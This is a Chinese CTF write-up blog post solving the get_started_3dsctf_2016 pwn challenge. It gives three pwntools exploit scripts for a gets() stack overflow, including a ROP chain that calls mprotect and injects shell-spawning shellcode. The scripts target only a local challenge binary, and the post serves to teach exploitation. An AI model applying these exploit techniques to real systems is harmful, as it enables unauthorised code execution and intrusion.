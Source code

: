 <!--yml
category: 未分类
date: 2022-04-26 14:38:22
-->

# get_started_3dsctf_2016 题解___lifanxin的博客-CSDN博客_get_started_3dsctf_2016

> 来源：[https://blog.csdn.net/A951860555/article/details/111030289](https://blog.csdn.net/A951860555/article/details/111030289)

# 知识点关键字

栈溢出，ROP + shellcode

# 样本

[get_started_3dsctf_2016样本下载](https://download.csdn.net/download/A951860555/13650960)

# 运行

检查文件:
  32位小端程序；
  开启了NX保护，栈保护未开启。
![checksec](img/6aa6f2b58caf58775634096a66cea1f0.png)
运行程序：
  程序很简单，提示输入一段文字。
![程序运行](img/42cac89907be4f3443487f33d9ce3de6.png)

# 静态分析

使用IDA查看程序：
![main](img/0597b92dbfc3c9c7008929b8e4c35d4a.png)
  主函数很简单，gets()函数存在明显的栈溢出漏洞。然后进一步观察程序，我们可以在.text段找到一个后门程序get_flag()，如下图所示：
![get_flag](img/70fdc6209a30c5a9cb93c986d59daa7f.png)
  该函数局部变量全用寄存器存储，在if语句中，成功判断a1和a2值后就会打开flag.txt文件，然后接下来的汇编代码功能就是打印该文件中的内容。

# 求解思路

## 本地可以运行，远端不行的解法

  整个题目到这里思路已经明确，直接给出下面的exp：

```
from pwn import *

context(os="linux", arch="i386", log_level="debug")
q = process("./get_started_3dsctf_2016")

payload = cyclic(0x38) + p32(0x080489B8)
q.sendline(payload)
q.recvline() 
```

![res](img/5d0ac19750abfc36e42bee27e3a06835.png)
  上面的结果是在本地直接运行的，这里是可以在本地拿到flag，但实际操作中无法在远程上拿到flag。无法拿到的原因是因为我们没有维持栈的平衡，导致程序异常退出，但为啥本地异常退出可以回显文本中的字符串而远程不可以，这就不太清楚，有可能远端做了限制。

## 简单解法 – 利用后门函数

  针对上面远端无法拿到结果的问题，这里给出新的解法，也就是维护好栈，使得执行完get_flag()后门函数后通过exit()函数正常退出。

```
from pwn import *

context(os="linux", arch="i386", log_level="debug")
q = process("./get_started_3dsctf_2016")

payload = cyclic(0x38) + p32(0x080489A0) + p32(0x0804E6A0)

payload += p32(0x308CD64F) + p32(0x195719D1)
q.sendline(payload)
q.recvline() 
```

## ROP解法 – 直接获取shell

  另外网上有前辈给出了更复杂，也更暴力的解法，大家可以学习一下。

```
from pwn import *

context(os="linux", arch="i386", log_level="debug")
q = process("./get_started_3dsctf_2016")
elf = ELF("./get_started_3dsctf_2016")

mprotect_addr = elf.symbols["mprotect"]
read_addr = elf.symbols["read"]

start_addr = 0x80ea000

pop_3_ret = 0x0804f460

payload = cyclic(0x38)
payload += p32(mprotect_addr)
payload += p32(pop_3_ret)
payload += p32(start_addr)
payload += p32(0x1000)
payload += p32(0x7)     
payload += p32(read_addr)
payload += p32(pop_3_ret)
payload += p32(0)
payload += p32(start_addr)
payload += p32(0x100)
payload += p32(start_addr)
shellcode = asm(shellcraft.sh())

q.sendline(payload)
sleep(0.1)
q.sendline(shellcode)
q.interactive() 
```

  分析一下上面的解题思路：首先利用了mprotect函数修改内存权限，然后利用read读取shellcode到该内存区域。整体是利用了ROP链的思想，由于开启了NX保护，所以不断利用retn返回地址来达到调用函数，注入shellcode的目的。
  mprotect第一个参数为需要修改的内存起始地址，这个地址也就是我们接下来shellcode将要写入的地方；第二个参数为修改的内存大小，一般取内存的整数页；第三个参数为0x7，表示该内存拥有可读可写可执行权限。read函数第一个参数是打开的文件描述符，0表示输入；第二参数指明读取的数据存放的内存起始位置；第三个参数指明最大读取的字节数。
  而每次调用函数后都是返回到pop_3_ret中执行，是用该段汇编代码弹出压入栈中的三个参数来达到栈平衡。该代码的地址不唯一，在程序中找到相应弹出三个栈的操作再加retn的汇编代码就行。

# 总结

  以上就是该pwn题的解法汇总和分析，总的说来第一种解法不难，但需要让函数正常退出才行。第二种ROP解法，操作和思维对初学者来说略显复杂，但只要熟练掌握后也是一种非常不错且常规的解法和思路。希望大家仔细分析一波，从中有所获，有所得。